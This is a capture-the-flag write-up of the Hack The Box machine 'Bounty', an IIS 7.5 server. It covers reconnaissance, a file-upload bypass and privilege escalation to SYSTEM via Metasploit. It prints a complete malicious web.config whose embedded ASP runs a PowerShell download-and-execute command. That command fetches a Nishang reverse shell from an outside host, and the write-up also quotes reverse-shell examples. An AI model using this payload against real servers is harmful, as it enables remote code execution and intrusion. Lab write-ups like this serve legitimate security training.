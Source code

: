 ```yaml
---
layout: PostSimple
date: 
title:     "Hack The Box - Bounty"
tags: ['windows','easy','file-upload-vuln','isi']
---
```


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-bounty/1.png)

We are going to pwn Bounty from Hack The Box.

Link : <https://www.hackthebox.eu/home/machines/profile/142>


Lets Begin with our Initial Nmap Scan.

Nmap Scan Results:

```

PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Bounty
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 2008|7|Vista|Phone|8.1|2012 (91%)
OS CPE: cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_server_2012
Aggressive OS guesses: Microsoft Windows 7 or Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (91%), Microsoft Windows 7 (91%), Microsoft Windows 7 Professional or Windows 8 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (91%), Microsoft Windows Vista SP0 or SP1, Windows Server 2008 SP1, or Windows 7 (91%), Microsoft Windows Vista SP2 (91%), Microsoft Windows Server 2008 R2 SP1 (90%), Microsoft Windows Vista SP2, Windows 7 SP1, or Windows Server 2008 (90%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
## HTTP:
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-bounty/2.png)

Nothing interesting, lets run ``Gobuster``.

Gobuster Scan Results:

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.93
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/03/09 19:03:45 Starting gobuster
===============================================================
/aspnet_client (Status: 301)
/transfer.aspx (Status: 200)
/uploadedfiles (Status: 301)
===============================================================
2020/03/09 19:10:48 Finished
===============================================================

```

``/transfer.aspx`` 

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-bounty/3.png)

There is a file upload options so I guess we can upload a reverse shell here and access them in ``/uploadedfiles``

## Test:

I uploaded ``wolf.jpg`` and it Successfully Uploaded

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-bounty/4.png)

``/uploadedfiles/wolf.jpg``
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-bounty/5.png)

So I tried uploading ``.aspx`` file and I get Invalid File.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-bounty/6.png)

I googled about ISI 7.5 exploits and found there is a RCE via uploading ``web.config``.

> Reference https://sethjackson.github.io/2018/10/27/rce-through-web-config-upload/

So I used [Nishang](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) to get shell.

If we look at the Shell it gives us some of the examples.

```
.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress 192.168.254.226 -Port 4444

Above shows an example of an interactive PowerShell reverse connect shell. A netcat/powercat listener must be listening on 
the given IP and port. 

.EXAMPLE
PS > Invoke-PowerShellTcp -Bind -Port 4444

Above shows an example of an interactive PowerShell bind connect shell. Use a netcat/powercat to connect to this port. 

.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress fe80::20c:29ff:fe9d:b983 -Port 4444
```
I copied one of the example and changed it to my IP and paste it in bottom of the file. <br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-bounty/7.png)<br/>
This not only load the module but also the shell give me a callback.

Started python server.

``web.config``

```
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />         
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<!-- ASP code comes here! It should not include HTML comment closing tag and double dashes!
<% Response.write("-"&"->") %>

<%
Set rs = CreateObject("WScript.Shell")
Set cmd = rs.Exec("cmd /c powershell -c IEX (New-Object Net.Webclient).downloadstring('http://10.10.14.22:8000/Invoke-PowerShellTcp.ps1')")
o = cmd.StdOut.Readall()
Response.write(o)
%>

<% Response.write("<!-"&"-") %>
-->
```

Uploaded ``web.config``<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-bounty/8.png)

Now I need to visit ``10.10.10.93/uploadedfiles/web.config`` and I will get the shell.

``Status 200`` means it successfully downloaded to the box. And NC give me the shell.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-bounty/9.png)

I changed to Metasploit

``systeminfo``

```
Host Name:                 BOUNTY
OS Name:                   Microsoft Windows Server 2008 R2 Datacenter 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                55041-402-3606965-84760
Original Install Date:     5/30/2018, 12:22:24 AM
System Boot Time:          3/9/2020, 6:53:24 PM
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     2,047 MB
Available Physical Memory: 1,573 MB
Virtual Memory: Max Size:  4,095 MB
Virtual Memory: Available: 3,575 MB
Virtual Memory: In Use:    520 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    WORKGROUP
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    No
                                 IP address(es)
```

Where ``Hotfix(s): N/A`` which means the system is not updated so far.

> A hotfix or quick-fix engineering update is a single, cumulative package that includes information that is used to address a problem in a software product.

We can try ``local_exploit_suggester`` this will give us some suggestions to exploit. Before that we need to ``migrate`` process inorder to make it stable. So I won’t face any errors while using any exploit. 

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-bounty/10.png)

Now Background the session and run ``local_exploit_suggester``.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-bounty/11.png)

It displayes a lot of vulnerable so I chose random one ``windows/local/ms10_092_schelevator``
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-bounty/12.png)

Got Authority\System
